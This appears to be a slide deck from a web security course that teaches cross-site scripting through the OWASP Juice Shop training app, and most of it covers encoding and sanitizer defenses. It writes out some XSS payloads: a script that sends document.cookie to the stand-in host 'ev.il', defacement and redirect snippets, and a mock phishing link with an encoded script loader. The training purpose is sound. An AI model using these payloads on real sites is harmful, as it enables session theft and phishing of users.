

<!-- $theme: gaia -->

<!-- $size: 16:9 -->

<!-- page_number: true -->

<!-- footer: Copyright (c) by Bjoern Kimminich | Licensed under CC-BY-SA 4.0 -->

# XSS

## (Cross-Site Scripting)

---

# [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

1. An attacker can use XSS to send a malicious script to an unsuspecting user
2. The end user's browser has _no way to know that the script should not be trusted_, and will execute the script

---

# Root Cause

Web applications vulnerable to XSS...

1. ...include untrusted data (usually from an HTTP request) into dynamic content...
2. ...that is then sent to a web user _without previously validating for malicious content_

---

# Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect user to malicious website

---

# Typical Phishing Email

<small>Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize **now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cscript%3Evar%20js%20%3Ddocument.createElement%28%22script%22%29;js.type%20%3D%20%22text%2Fjavascript%22;js.src%3D%22http:%2F%2Flocalhost:8080%2Fshake.js%22;document.body.appendChild%28js%29;varhash%3Dwindow.location.hash;window.location.hash%3Dhash.substr%280,8%29;%3C%2Fscript%3Eapple)

Sincereely yours,

Bjorn Kimminich
CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda yadda yadda more assuring legal bla 
  All logos and icons are trademarks of Juice Shop Inc. Copyright (c) 2018 Juice Shop Inc._</small></small></small>

---

# [XSS Demo](https://github.com/wurstbrot/shake-logger)

[](https://www.youtube.com/watch?v=L7ZEMWRm7LA)

:information_source: _This video shows how severe the impact of XSS can be: It makes the application shake & dance **and** lets a keylogger steal user credentials!_

---

# Risk Rating

## Cross-Site Scripting (XSS)

| Exploitability    | Prevalence              | Detecability      | Impact                          | Risk                                                                                |
|:------------------|:------------------------|:------------------|:--------------------------------|:------------------------------------------------------------------------------------|
| :red_circle: Easy | :red_circle: Widespread | :red_circle: Easy | :large_orange_diamond: Moderate | [A7](https://www.owasp.org/index.php/Top_10-2017_A7-Cross-Site_Scripting_%28XSS%29) |
| ( **3**           | + **3**                 | + **3** ) / 3     | * **2**                         | = **6.0**                                                                           |

---

# :x: Vulnerable Code Example

```
<!--search.jsp-->

<%String searchCriteria = request.getParameter("searchValue");%>
```

might forward to the following page when executing the search:

```
<!--results.jsp-->

Search results for <b><%=searchCriteria%></b>:

<table>
<!-- Render the actual results table here -->
</table>
```

---

# Benign Usage

`
https://my-little-application.com/search.jsp?searchValue=blablubb
`

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:

---

<!-- *footer: -->

# Exploit Example

`
https://my-little-application.com/search.jsp?searchValue=</b><b>
`

results in the following HTML on the `results.jsp` page:

```html
Search results for
  <b></b><b></b>:
```

rendering as:

<hr>

Search results for <b></b><b></b>:

---

<!-- *footer: -->

# XSS Attack Payload Examples

#### Stealing User Session

```
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```
<script>window.location.assign("http://ev.il");</script>
```

---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications dynamically include attacker-controllable data to a page

_:information_source: The previous example vulnerability and exploit of `results.jsp` is a typical Reflected XSS._

---

<!-- *footer: Монгол: Reflected XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# Reflected XSS


---

<!-- *footer: Монгол: Stored XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# Stored XSS


---

<!-- *footer: Монгол: DOM-based XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# DOM XSS



---

# Exercise 2.1

1. Identify places where user input is _directly_ included in the output
2. Perform a successful _Reflected XSS_ attack (:star:)
3. Perform a successful _DOM XSS_ attack (:star:)

_:warning: Make sure that you really understand the subtle difference between those two underlying vulnerabilities._

---

# [Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

* **Do not include user supplied input in your output!** :100:

<!-- -->

* **Output Encode** all user supplied input
  * e.g. OWASP Java Encoder
* Perform **White List Input Validation** on user input

<!-- -->

* Use an HTML Sanitizer for larger user supplied HTML chunks
  * e.g. OWASP Java HTML Sanitizer

---

# :heavy_check_mark: Fixed Code Example

Using `Encoder` from [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project):

```
<%import org.owasp.encoder.Encoder;%>

Search results for <b><%=Encoder.forHtml(searchCriteria)%></b>:
<!-- ... -->
```

Same result using `HtmlUtils` from the popular Spring framework:

```
<%import org.springframework.web.util.HtmlUtils;%>

Search results for <b><%=HtmlUtils.htmlEscape(searchCriteria)%></b>:
<!-- ... -->
```

---

# [Encoding Contexts](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project)

### HTML Content
```
<textarea name="text"><%= Encode.forHtmlContent(UNTRUSTED) %></textarea>
```

#### HTML Attribute
```
<input type="text"
       name="address"
       value="<%= Encode.forHtmlAttribute(UNTRUSTED) %>" />
```

_Alternatively_ `Encode.forHtml(UNTRUSTED)` _can be used for both the above contexts but is less efficient as it encodes more characters._

---

### JavaScript
```
<script type="text/javascript">
 var msg = "<%= Encode.forJavaScriptBlock(UNTRUSTED) %>";
 alert(msg);
</script>
```

#### JavaScript Variable
```
<button onclick="alert('<%= Encode.forJavaScriptAttribute(UNTRUSTED) %>');">
 click me
</button>
```

_Alternatively_ `Encode.forJavaScript(UNTRUSTED)` _can be used for both the above contexts but is less efficient as it encodes more characters._

---

### CSS
```
<div style="width:<= Encode.forCssString(UNTRUSTED) %>">
<div style="background:<= Encode.forCssUrl(UNTRUSTED) %>">
```

### URL Parameter
```
<a href="/search?value=<%= Encode.forUriComponent(UNTRUSTED) %>&order=1#top">
<a href="/page/<%= Encode.forUriComponent(UNTRUSTED) %>">
```

---

# [OWASP Java HTML Sanitizer](https://www.owasp.org/index.php/OWASP_Java_HTML_Sanitizer_Project)

Fast and easy to configure HTML Sanitizer written in Java which lets you include HTML authored by third-parties in your web application while protecting against XSS.

## Using a simple pre-packaged policy

```java
private String sanitizeHtml(String html) {
  PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.BLOCKS)
				              .and(Sanitizers.LINKS);
  return policy.sanitize(html);
}
```

---

## Custom Sanitization Policy

```java
private static final PolicyFactory BASIC_FORMATTING_WITH_LINKS_POLICY =
  new HtmlPolicyBuilder()
  .allowCommonInlineFormattingElements().allowCommonBlockElements()
  .allowAttributes("face", "color", "size", "style").onElements("font")
  .allowAttributes("style").onElements("div", "span").allowElements("a")
  .allowAttributes("href").onElements("a").allowStandardUrlProtocols()
  .requireRelNofollowOnLinks().toFactory();
```

_This custom policy actually reflects the features of a 3rd-party rich text editor widget for GWT applications the author once used._

---

# Input Validation

## Black List
* **"Allow what is not explicitly blocked!"**
  * Example: Do not allow `<`, `>`, `"`, `;`, `'` and `script` in user input (:interrobang:)

<!-- -->

* Can be bypassed by masking attack patterns
* Must be updated for new attack patterns

**= Negative Security Rule**

---

## White List
* **"Block what is not explicitly allowed!"**
  * Example: Allow only `a-z`, `A-Z` and `0-9` in user input

<!-- -->

* Provide protection even against future vulnerabilities
* Tend to get weaker over time when not carefully maintained
* Can be quite effortsome to define for a whole application

**= Positive Security Rule**

---

# "Client Side Validation"


---

# Bypassing Client Side Validation

* Client Side Validation is _always_ for _convenience_ but **never** for **security**!
* You can just stop all outgoing HTTP requests in your browser...
  * ...and tamper with contained headers, data or passed parameters
  * ..._after_ Client Side Validation took place
  * ...but _before_ they are actually submitted to the server
* Sometimes you can just bypass the client entirely and interact with the backend instead

---

# Exercise 2.2 (:house:)

1. Identify places where _stored_ user input is displayed elsewhere
2. Perform a successful _Stored XSS_ attack (:star::star::star: - :star::star::star::star:)
3. Visit the page where the attack gets executed to verify your success

_:information_source: If your attack seems to be blocked or otherwise prevented, you can either try to beat the security mechanism or just find an easier target!_